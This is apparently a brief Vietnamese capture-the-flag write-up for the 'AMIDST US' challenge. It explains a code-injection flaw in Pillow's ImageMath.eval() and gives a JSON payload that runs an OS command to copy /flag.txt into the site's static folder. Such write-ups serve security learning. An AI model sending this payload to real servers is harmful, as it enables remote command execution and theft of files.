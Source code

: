 # AMIDST US

Vul ở `ImageMath.eval()`, ta lợi dụng để khai thác code injection. Mặc dù server trả về `400 BAD REQUEST` nhưng đoạn code inject vẫn sẽ được thực thi. Ghi kết quả ra thư mục mà ta có thể truy cập được -> `/static`

Payload:


```json
{"background": [1, 181, "__import__('os').system('cat /flag.txt > /app/application/static/flag')"], 
"image":"iVBORw0KGgoAAAANSUhEUgAABngAAAIKCAYAAAAApEFyAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAAEnQAABJ0Ad5mH3gAAGOgSURBVHhe7d3vl1x1nej7"}
```


